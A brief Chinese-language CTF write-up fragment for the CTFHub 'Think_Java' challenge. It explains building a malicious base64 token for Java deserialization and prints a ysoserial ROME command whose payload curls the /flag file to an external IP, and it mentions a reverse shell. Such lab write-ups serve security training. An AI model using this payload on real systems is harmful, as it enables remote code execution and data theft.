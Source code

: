 ![操作成功](Think_Java/操作成功.png)

如果将ctfhub的token改成包含恶意代码的token，就可以成功获取flag。

题目中token的流程：先base64解码，再反序列化。

构造恶意token：生成payload（反弹shell）-->反序列化-->base64编码-->最终payload

**获取flag**

`java -jar ysoserial.jar ROME "curl http://8.130.73.157:4848 -d @/flag" > shell.bin`，这里的ROME为ysoserial的参数。

首先，利用ysoserial进行序列化生成。

